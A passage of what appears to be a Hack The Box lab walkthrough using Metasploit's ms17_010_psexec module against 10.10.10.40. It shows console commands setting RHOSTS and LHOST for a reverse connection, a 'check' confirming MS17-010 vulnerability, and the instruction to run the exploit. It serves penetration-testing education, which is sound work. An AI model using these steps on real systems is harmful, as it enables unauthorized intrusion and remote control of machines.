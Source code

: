 
```
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

As you see above HTB also set**LHOST**  to **tun0.** This was probably required but not visible in the output before cause it was cut off.

**LHOST** is LOCAL HOST (Attacker’s machine); in this case, "tun0" likely refers to a network interface associated with a tunneled connection, such as a VPN or a network tunnel.

**tun0**: "tun0" is likely the name of a network interface
that represents a tunneling device. Tunnels are often used to create
secure, encrypted connections over an untrusted network, such as the
internet. In this scenario, "tun0" could represent a VPN connection or
another form of tunnel.


💡 ***By setting the `LHOST` option to the attacker's IP address***
***associated with the "tun0" interface, the Metasploit framework is***
***configured to listen for a connection back from the exploited target***
***through the specified tunnel. Once the target system is successfully***
***compromised and exploited, it will establish a connection to the***
***attacker's machine through the defined tunnel and IP address.***

## Start attack

Before starting you can check to ensure that **server is vulnerable** with

`check`

output:

```
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```


💡 ***Note that not every exploit in the `Metasploit Framework` supports the `check` function.***

then finally start the attack with

`run` or  `exploit`  !!

## Remeber this:

- Pay attention to details:

what are you searching for? could be
